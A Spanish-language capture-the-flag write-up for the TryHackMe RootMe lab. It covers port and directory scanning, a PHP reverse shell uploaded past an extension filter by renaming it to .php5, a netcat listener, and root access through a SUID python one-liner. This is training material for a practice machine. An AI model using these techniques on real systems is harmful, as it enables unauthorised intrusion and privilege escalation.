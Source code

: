 ```yaml
---
layout: single
title:  "RootMe CTF Writeup [ES] - TryHackMe"
date:   2021-04-02 04:00:00 -0400
classes: wide
categories: THM
tags:
 - Privesc
---
```


En esta ocasión estaré resolviendo el lab [RootMe](https://www.tryhackme.com/room/rrootme) de la plataforma **TryHackMe**. Esta máquina es bastante sencilla como se verá a continuación.

## Lab info

![Lab Info](/images/THM/RootMe/00-lab-info.png "Machine Info"){: .align-center}


## Task 1 - Deploy the machine

Desplegar la máquina, no requiere respuesta.

## Task 2 - Reconnaissance

1 - Scan the machine, how many ports are open?
``` 
2
```
Según el escáner realizado con **nmap**, podemos ver que existen 2 puertos abiertos. Se han utilizado los siguientes comandos:

* ```nmap -p- -sS --min-rate 4000 -n -v 10.10.253.211 -oG allPorts.gnmap```
* ```nmap -sC -sV -p22,80 10.10.253.211 -oN ports.nmap```


```go
Nmap scan report for 10.10.253.211
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 - What version of Apache is running?
```
2.4.29
```
Esta información se puede visualizar desde el escaner nmap o realizando ```whatweb http://10.10.253.211```
```bash
http://10.10.253.211 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.253.211], Script, Title[HackIT - Home]
```
Desde el navegador se visualiza la siguiente home page:

![Lab Info](/images/THM/RootMe/05-web-page.png){: .align-center}

3 - What service is running on port 22?
```
SSH
```

4 - Find directories on the web server using the GoBuster tool.
```
No requiere respuesta
```
5 - What is the hidden directory?

```
/panel/
```

Gobuster scan: 

* ```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.253.211/ -t 300 --no-error```

```go
===============================================================
2021/04/02 19:02:50 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.253.211/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.253.211/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.253.211/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.253.211/panel/]
```

## Task 3 - Getting a shell

Para esta tarea la plataforma solicita obtener una shell en base a lo que se ha descubierto anteriormente. Para ello revisamos la ruta ```http://10.10.253.211/panel/``` en donde se visualiza un panel para subir archivos:

![Panel](/images/THM/RootMe/10-web-upload-page.png){: .align-center}

Esto nos hace pensar que es posible subir un archivo que nos entable una reverse shell. Para que funcione, debemos saber que lenguaje de programación interpretará la página. Revisando en Wappalyzer vemos que la web está construida en ```php```

![PHP](/images/THM/RootMe/15-web-upload-language.png){: .align-center}

Sabiendo esto, yo recomiendo utilizar el recurso de [Pentest Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) para la reverse shell con PHP.

Descargamos el archivo y lo editamos para asegurarnos de definir nuestra IP y Puerto en el que queremos recibir la shell.

![RSHELL](/images/THM/RootMe/20-reverse-shell-php.png){: .align-center}

Probamos a subir el archivo y nos encontramos con el siguiente mensaje:

![Web Error](/images/THM/RootMe/26-web-error.png){: .align-center}

Lo que nos da a entender que la extensión del archivo no es válida.

Para lidiar con esto lo que se puede hacer es crear múltiples archivos con distinta extensión y probar uno a uno o bien realizar esta comprobación con **BurpSuite** lo cual resulta más cómodo. Recordar que existe un [room](https://www.tryhackme.com/room/rpburpsuite) en la plataforma de TryHackMe donde se puede aprender a utilizar BurpSuite desde cero.

Dicho lo anterior, lo que se debe hacer es interceptar la subida del archivo y analizar la respuesta del lado del servidor hasta que nos dé una respuesta satisfactoria.

Se intercepta la petición realizada por el navegador y posteriormente se envía al repeater. En la izquierda tenemos la petición realizada con un archivo con extensión ```.php``` y en la derecha se visualiza la respuesta indicando que la extensión no es válida.

![Burp Error](/images/THM/RootMe/30-burp-error.png){: .align-center}

Cambiamos la extensión y vemos que la respuesta ahora es satisfactoria. Esta respuesta se obtiene con las extensiones ```.php2``` ```.php3``` ```.php4``` ```.php5```.

![Burp Ok](/images/THM/RootMe/35-burp-ok.png){: .align-center}

En mi caso subiré el archivo como rshell.php5

![Web Ok](/images/THM/RootMe/41-web-ok.png){: .align-center}

Como se aprecia en la imagen, se obtiene una respuesta exitosa y en el texto señalado se obtiene la ruta del archivo que fue subido. En mi caso la ruta es: ```http://10.10.253.211/uploads/rshell.php5```

Ahora con netcat abrimos el canal para la escucha tráfico en el puerto 443 que definimos anteriormente.

```go
nc -nlvp 443
listening on [any] 443 ...
```

Y ejecutamos el archivo en el navegador para obtener una shell con el usuario www-data.

```go
nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.253.211] 35932
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:23:22 up  3:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
la flag de este usuario se encuentra en ```/var/www/user.txt```.

```bash
THM{y0u_**********}
```

## Task 4 - Privilege escalation

Para la fase de escalada de privilegios lo primero sería hacer una búsqueda de archivos con permiso SUID habilitado.

```bash
$ find \-perm -4000 2>/dev/null | grep -v "snap"
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
./bin/mount
./bin/su
./bin/fusermount
./bin/ping
./bin/umount
```

En base a lo obtenido y haciendo uso de la web [GTFObins](https://gtfobins.github.io/) podemos identificar que se puede explotar python para obtener una shell con privilegios elevados. En la sección de SUID nos indican como realizarlo.

![Web Ok](/images/THM/RootMe/45-gtfobins.png){: .align-center}


```bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

Por último se realiza una lectura de la flag ubicada en /root/root.txt

```bash
THM{pr1v1l**********}
```
Eso concluye la última pregunta de este lab.